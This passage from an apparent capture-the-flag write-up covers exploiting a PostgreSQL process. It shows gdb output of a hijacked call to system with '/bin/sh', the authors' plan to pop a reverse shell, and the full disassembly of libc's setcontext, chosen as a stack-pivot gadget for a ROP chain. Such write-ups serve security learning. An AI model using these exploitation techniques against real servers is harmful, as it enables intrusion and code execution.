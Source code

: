`rdi` has wrong MSB - it happens sometimes. To avoid such problem it is enough to just run some random SQL queries before executing our payload. Having that fixed we can do a quick check in `gdb`:

```c
 RDI  0x7f879964f050 ◂— 0x68732f6e69622f /* '/bin/sh' */

 ► 0x7f87a752f3a0 <system>                 test   rdi, rdi
```

Cool, but that approach unfortunately will not work - shell is spawned inside main `postgres` process, and we cannot interact with it. Also eight bytes is not enough to store `/readflag\x00` for `system`. The conclusion is that we need to pop a reverse shell, but we have only one function to call. We were looking for some nice gadgets that will allow us to do a `stack pivot` and craft a simple `ROP chain` in our big chunk of memory. We had a hard time finding a good gadget, so we decided to go with `setcontext` libc function.

```c
pwndbg> disassemble setcontext
Dump of assembler code for function setcontext:
   0x00007f87a7523ef0 <+0>:	push   rdi
   0x00007f87a7523ef1 <+1>:	lea    rsi,[rdi+0x128]
   0x00007f87a7523ef8 <+8>:	xor    edx,edx
   0x00007f87a7523efa <+10>:	mov    edi,0x2
   0x00007f87a7523eff <+15>:	mov    r10d,0x8
   0x00007f87a7523f05 <+21>:	mov    eax,0xe
   0x00007f87a7523f0a <+26>:	syscall
   0x00007f87a7523f0c <+28>:	pop    rdx
   0x00007f87a7523f0d <+29>:	cmp    rax,0xfffffffffffff001
   0x00007f87a7523f13 <+35>:	jae    0x7f87a7523f70 <setcontext+128>
   0x00007f87a7523f15 <+37>:	mov    rcx,QWORD PTR [rdx+0xe0]
   0x00007f87a7523f1c <+44>:	fldenv [rcx]
   0x00007f87a7523f1e <+46>:	ldmxcsr DWORD PTR [rdx+0x1c0]
   0x00007f87a7523f25 <+53>:	mov    rsp,QWORD PTR [rdx+0xa0]
   0x00007f87a7523f2c <+60>:	mov    rbx,QWORD PTR [rdx+0x80]
   0x00007f87a7523f33 <+67>:	mov    rbp,QWORD PTR [rdx+0x78]
   0x00007f87a7523f37 <+71>:	mov    r12,QWORD PTR [rdx+0x48]
   0x00007f87a7523f3b <+75>:	mov    r13,QWORD PTR [rdx+0x50]
   0x00007f87a7523f3f <+79>:	mov    r14,QWORD PTR [rdx+0x58]
   0x00007f87a7523f43 <+83>:	mov    r15,QWORD PTR [rdx+0x60]
   0x00007f87a7523f47 <+87>:	mov    rcx,QWORD PTR [rdx+0xa8]
   0x00007f87a7523f4e <+94>:	push   rcx
   0x00007f87a7523f4f <+95>:	mov    rsi,QWORD PTR [rdx+0x70]
   0x00007f87a7523f53 <+99>:	mov    rdi,QWORD PTR [rdx+0x68]
   0x00007f87a7523f57 <+103>:	mov    rcx,QWORD PTR [rdx+0x98]
   0x00007f87a7523f5e <+110>:	mov    r8,QWORD PTR [rdx+0x28]
   0x00007f87a7523f62 <+114>:	mov    r9,QWORD PTR [rdx+0x30]
   0x00007f87a7523f66 <+118>:	mov    rdx,QWORD PTR [rdx+0x88]
   0x00007f87a7523f6d <+125>:	xor    eax,eax
   0x00007f87a7523f6f <+127>:	ret
   0x00007f87a7523f70 <+128>:	mov    rcx,QWORD PTR [rip+0x190e69]        # 0x7f87a76b4de0
   0x00007f87a7523f77 <+135>:	neg    eax
   0x00007f87a7523f79 <+137>:	mov    DWORD PTR fs:[rcx],eax
   0x00007f87a7523f7c <+140>:	or     rax,0xffffffffffffffff
   0x00007f87a7523f80 <+144>:	ret
```
